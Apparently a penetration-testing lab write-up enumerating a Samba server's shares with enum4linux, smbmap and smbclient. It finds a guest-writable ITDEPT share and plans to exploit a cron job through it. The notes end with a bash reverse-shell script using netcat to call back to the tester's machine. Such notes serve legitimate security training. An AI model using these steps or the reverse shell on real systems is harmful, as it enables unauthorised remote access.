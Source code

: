 
# Port 445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP) - Open Writable Share

Run netbios & SMB Enumeration
```sh
enum4linux -a 192.168.184.11
```
	  =========================================== 
	|    Share Enumeration on 192.168.184.11    |
	 =========================================== 
	Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 640.
		Sharename       Type      Comment
		---------       ----      -------
		print$          Disk      Printer Drivers
		ITDEPT          Disk      PLEASE DO NOT REMOVE THIS SHARE. IN CASE YOU ARE NOT AUTHORIZED TO USE THIS SYSTEM LEAVE IMMEADIATELY.
		IPC$            IPC       IPC Service (Samba 4.9.5-Debian)

To verify share access
```
smbmap -H 192.168.184.11
```
	[+] IP: 192.168.184.11:445	Name: 192.168.184.11                                    
	        Disk                                                  	Permissions	Comment
		----                                                  	-----------	-------
		print$                                            	NO ACCESS	Printer Drivers
		ITDEPT                                            	READ, WRITE	PLEASE DO NOT REMOVE THIS SHARE. IN CASE YOU ARE NOT AUTHORIZED TO USE THIS SYSTEM LEAVE IMMEADIATELY.
		IPC$                                              	NO ACCESS	IPC Service (Samba 4.9.5-Debian)

Only ITDEPT has read write access
```
smbclient "//192.168.184.11/ITDEPT" -U guest
```
	smb: \> ls
	  .                                   D        0  Sun Nov 12 22:28:27 2023
	  ..                                  D        0  Wed Jul 22 13:19:41 2020
			7158264 blocks of size 1024. 3320324 blocks available

Checking write privileges
![[Pasted image 20231112223906.png]]
Successful so will try a rev shell

Since the management log shows a cron job for `product-control` in the ITDEPT share. The file is gone but the cron may still be there.

going to create a one liner nc script (Annoying as to find the right revshell I basically need to brute force which one works...) 
```bash
#!/bin/bash
nc -e /bin/bash 192.168.45.247 4444
```
	saved in working directory
